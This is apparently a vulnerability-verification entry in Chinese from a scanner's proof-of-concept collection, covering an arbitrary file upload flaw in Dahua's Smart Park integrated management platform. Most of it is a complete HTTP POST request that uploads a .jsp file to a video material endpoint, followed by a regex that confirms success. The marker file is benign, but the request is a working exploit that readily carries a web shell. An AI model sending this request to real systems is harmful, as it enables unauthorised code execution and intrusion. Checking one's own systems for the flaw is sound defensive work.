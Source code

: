 ﻿# 大华智慧园区综合管理平台任意文件上传

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /publishing/publishing/material/file/video HTTP/1.1
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip, deflate
Connection: close

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="dudesuite.jsp"

dudesuite
--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Submit"

submit
--dd8f988919484abab3816881c55272a7--
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?success)(?=.*?jsp).*?$

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台任意文件上传.poc
